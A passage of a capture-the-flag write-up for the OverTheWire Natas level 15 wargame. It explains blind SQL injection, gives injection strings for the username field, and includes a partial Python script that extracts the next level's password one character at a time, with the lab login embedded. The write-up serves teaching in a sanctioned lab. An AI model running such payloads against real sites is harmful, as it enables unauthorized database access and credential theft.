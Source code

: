 To do so, we can write **{" or substring(username, 1, 1) = 'n' -- }** in the input field and normally it will ouputs a positive response. Don't forget to add space after -- (which stand for commenting everything that follows it) otherwise it won't work.

We can do the same process on **password** column by comparing every letter with all the possible matches and collect the ones that gave positive response. This way, we can craft the password. This approach is called **Blind Injection**.

We will be hunting the corresponding password for the username **natas16** already found by the key word **"and"**.

Let's create a python script to auatomate the job.

```python
# Import the requests library for making HTTP requests
import requests
# Import string for accessing ASCII letters and digits
import string

# Character set for the password (a-z, A-Z, 0-9)
charset = string.ascii_letters + string.digits
# Expected length of the password which is 32 if we follow the patterns of previous passwords
password_length = 32
# Initialize empty string to build the password
password = ""

# Create a session to maintain authentication across requests
session = requests.Session()
# Set HTTP Basic Authentication with username and password
session.auth = ("natas15", "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx")

# Iterate through each count (1 to 32) to build the password substring
for count in range(1, password_length + 1):
    # Flag to track if a matching character is found for the current count
    found = False
    # Test each character in the charset
    for char in charset:
        # Craft the SQL injection payload
        # Format: natas16" and binary substring(password,1,count)="password + char" --
        # - binary ensures case-sensitive comparison
        # - substring(password,1,count) extracts password from 1 to count
        # - Compares with current password + guessed character
        # - # comments out the rest of the query
        payload = f'natas16" and binary substring(password,1,{count})="{password}{char}" # '
        # Create data dictionary for POST request with username parameter as mentioned in source code
        data = {"username": payload}
        # Send POST request with the payload
        response = session.post("http://natas15.natas.labs.overthewire.org/index.php", data=data)

        # Check if the response indicates a successful match
        if "This user exists" in response.text:
            # Add the matching character to the password
            password += char
            # Print the current count, character, and partial password
            print(f"Count {count}: {char} (Current: {password})")
            # Set flag to indicate a match was found
            found = True
            # Exit the character loop to move to the next count
            break
        else:
            # Print the character being tried (for debugging progress)
            print(f"Tried char: {char}")

    # If no character matched, stop the script
    if not found:
```